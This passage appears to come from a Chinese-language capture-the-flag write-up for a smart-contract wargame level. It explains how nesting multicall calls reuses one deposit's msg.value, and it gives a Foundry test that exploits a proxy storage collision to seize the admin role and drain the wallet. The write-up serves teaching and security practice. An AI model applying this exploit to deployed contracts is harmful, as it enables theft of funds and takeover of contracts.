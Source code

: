 > - multicall(1):
>   > - deposit(0.001 ether)
>   > - multicall(2):
>   >   > - deposit(0.001 ether)

这样，第二次调用就可以有效地绕过`selector == This .deposit.selector`检查；而我们只发送了`0.001 ether`，就可以提取`0.002 ether`，清空合约余额。

## 解答

攻击合约实现

```javascript
    function setUp() public {
        player = vm.addr(1);

        PuzzleWallet puzzleWallet = new PuzzleWallet();

        bytes memory data = abi.encodeWithSelector(
            PuzzleWallet.init.selector,
            100 ether
        );
        proxy = new PuzzleProxy(address(this), address(puzzleWallet), data);
        wallet = PuzzleWallet(address(proxy));

        wallet.addToWhitelist(address(this));
        wallet.deposit{value: 0.001 ether}();
    }

    function testattacker() public {
        vm.deal(player, 0.001 ether);
        vm.startPrank(player, player);

        proxy.proposeNewAdmin(player);
        wallet.addToWhitelist(player);

        bytes[] memory callsDeep = new bytes[](1);
        callsDeep[0] = abi.encodeWithSelector(PuzzleWallet.deposit.selector);

        bytes[] memory calls = new bytes[](2);
        calls[0] = abi.encodeWithSelector(PuzzleWallet.deposit.selector);
        calls[1] = abi.encodeWithSelector(
            PuzzleWallet.multicall.selector,
            callsDeep
        );
        wallet.multicall{value: 0.001 ether}(calls);
        wallet.execute(player, 0.002 ether, "");
        wallet.setMaxBalance(uint256(uint160(player)));

        assertEq(proxy.admin(), player);

        vm.stopPrank();
    }
```
